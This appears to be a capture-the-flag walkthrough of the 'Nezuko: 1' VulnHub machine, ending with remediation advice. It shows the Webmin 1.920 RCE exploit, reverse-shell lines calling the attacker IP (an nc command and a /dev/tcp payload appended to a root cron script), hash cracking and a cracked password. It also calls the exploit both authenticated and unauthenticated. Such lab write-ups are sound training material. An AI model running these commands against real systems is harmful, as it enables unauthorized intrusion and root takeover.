



# Nezuko: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.105 |
| **Attacker IP** | 192.168.1.106 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag (`root.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/nezuko-1-vulnhub-walkthrough/) |

## Attack Summary

Nezuko: 1 runs Webmin 1.920 on port 13337, which is vulnerable to an authenticated remote code execution exploit (CVE-2019-15107, EDB-47293). A modified version of the public exploit delivers a reverse shell as user `nezuko`. The `/etc/passwd` file reveals a second user `zenitsu`, whose hash is cracked with John the Ripper. As `zenitsu`, a user-writable scheduled script running as root is abused to obtain a root shell.

## Methodology

1. Host discovery and full port scan
2. Webmin 1.920 RCE exploit (EDB-47293)
3. Shell as `nezuko`
4. John the Ripper to crack `zenitsu`'s password hash
5. Privilege escalation via writable cron script

---

## Step 1: Host Discovery and Port Scan

```bash
netdiscover -r 192.168.1.0/24
nmap -p- -A 192.168.1.105
```

**Open ports:**

| Port | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH |
| 80 | HTTP | Static page (Nezuko image) |
| 13337 | HTTPS | Webmin 1.920 (MiniServ) |


---

## Step 2: Webmin 1.920 RCE Exploit (EDB-47293)

Search for known exploits:

```bash
searchsploit webmin 1.920
# Returns: Webmin 1.920 - Unauthenticated Remote Code Execution (EDB-47293)
```

Copy the exploit:

```bash
searchsploit -m 47293
cp 47293.sh shell.sh
```

Modify `shell.sh` to deliver a reverse shell. Replace the check payload with:

```bash
# In the exploit payload section, change the cmd to:
nc -e /bin/bash 192.168.1.106 1337
```

Start a listener:

```bash
nc -lvp 1337
```

Execute the exploit:

```bash
sh shell.sh https://192.168.1.105:13337
```

A shell is received as user `nezuko`.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 3: Initial Enumeration as nezuko

```bash
ls ~/
# from_zenitsu/  nezuko.txt

cat ~/nezuko.txt
# User flag (first flag)

cat /etc/passwd
# ...
# zenitsu:$1$...(hash)...:1001:1001:...
```

A second user `zenitsu` exists. Extract the hash.


---

## Step 4: Crack zenitsu's Password with John the Ripper

Save the hash line to a file:

```bash
# On attacker machine
echo 'zenitsu:$1$...(hash from /etc/passwd)...' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john hash.txt --show
```

Cracked credentials: `zenitsu:meowmeow`



---

## Step 5: Privilege Escalation via Writable Cron Script

Switch to `zenitsu`:

```bash
su zenitsu
# Password: meowmeow
```

Explore the home directory:

```bash
ls ~/to_nezuko/
# send_message_to_nezuko.sh
```

The script `send_message_to_nezuko.sh` is executed by a root-owned cron job every 5 minutes. Verify write permissions:

```bash
ls -la ~/to_nezuko/send_message_to_nezuko.sh
# -rwxrwxrwx 1 root root ... send_message_to_nezuko.sh
```

Generate a reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.106 lport=1234 R
```

Append the payload to the cron script:

```bash
echo '0<&60-;exec 60<>/dev/tcp/192.168.1.106/1234;sh <&60 >&60 2>&60' >> ~/to_nezuko/send_message_to_nezuko.sh
```

Start a listener and wait for the cron job to execute:

```bash
nc -lvp 1234
```

After up to 5 minutes a root shell is received:

```bash
id
# uid=0(root) gid=0(root)

cd /root
cat root.txt
```



---

## Lessons Learned

- Webmin 1.920 has a publicly documented RCE exploit requiring no authentication; updating to the latest version immediately removes this attack vector.
- Passwords in `/etc/passwd` hashes (MD5-crypt) are easily cracked with common wordlists. Modern systems should use shadow passwords with bcrypt or SHA-512.
- Writable cron scripts owned by root are high-severity privilege escalation vectors — file permissions should be enforced strictly for all scheduled task scripts.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Webmin 1.920 RCE (CVE-2019-15107) | Update Webmin to 1.930 or later; enable IP access controls |
| Password hash in `/etc/passwd` | Migrate to `/etc/shadow`; enforce SHA-512 with a high rounds count |
| Weak password (`meowmeow`) | Enforce a password complexity policy; use a password manager |
| World-writable cron script | `chmod 700 send_message_to_nezuko.sh; chown root:root ...` |
| Unnecessary Webmin exposure | Restrict Webmin to management VLAN; use VPN for admin access |
